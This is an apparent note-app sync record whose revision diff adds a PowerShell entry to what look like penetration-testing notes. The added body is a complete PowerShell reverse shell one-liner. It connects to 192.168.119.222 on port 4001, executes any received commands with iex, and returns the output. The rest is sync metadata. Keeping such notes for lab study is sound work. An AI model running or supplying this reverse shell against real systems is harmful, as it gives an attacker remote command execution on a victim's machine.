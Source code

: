 id: 1bc865a5905f42cd86e91695fa5ec99c
parent_id: 680b493da0424e90930f8c5ac2eef612
item_type: 1
item_id: 1a72f4e7464d467d810fc01a3adf9ed0
item_updated_time: 1650555767407
title_diff: "[{\"diffs\":[[0,\"werShell\"],[1,\"\\\r\"]],\"start1\":2,\"start2\":2,\"length1\":8,\"length2\":9}]"
body_diff: "[{\"diffs\":[[0,\"ntesters\"],[1,\"\\\n\\\npowershell -nop -c \\\"$client = New-Object System.Net.Sockets.TCPClient('192.168.119.222',4001); $stream = $client.GetStream(); \\\\[byte\\\\[\\\\]\\\\]$bytes = 0..65535|%{0}; while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0) { $data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i); $sendback = (iex $data 2>&1 | Out-String ); $sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = (\\\\[text.encoding\\\\]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length); $stream.Flush()};$client.Close()\\\"\"]],\"start1\":1446,\"start2\":1446,\"length1\":8,\"length2\":548}]"
metadata_diff: {"new":{},"deleted":[]}
encryption_cipher_text: 
encryption_applied: 0
updated_time: 2022-04-21T15:43:31.447Z
created_time: 2022-04-21T15:43:31.447Z
type_: 13